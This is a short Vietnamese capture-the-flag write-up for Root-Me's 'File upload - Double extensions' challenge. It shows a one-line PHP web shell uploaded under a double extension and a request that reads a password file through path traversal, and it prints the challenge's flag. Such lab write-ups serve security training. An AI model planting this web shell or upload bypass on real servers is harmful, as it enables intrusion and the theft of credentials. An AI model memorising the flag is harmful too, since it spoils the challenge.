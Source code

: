 # [File upload - Double extensions](https://www.root-me.org/en/Challenges/Web-Server/File-upload-Double-extensions)

## Solutions

- Upload một file có tên là `test.php.jpeg` có nội dung là:

```php
<?php
system($_GET['command']);
?>
```

- Gửi request đến nơi chứa file `test.php.jpeg` với request query parameter là `?command=cat ../../../.passwd`

- Password xuất hiện trong response: `Gg9LRz-hWSxqqUKd77-_q-6G8`

## References

- <https://repository.root-me.org/Exploitation%20-%20Web/EN%20-%20Secure%20file%20upload%20in%20PHP%20web%20applications.pdf?_gl=1>

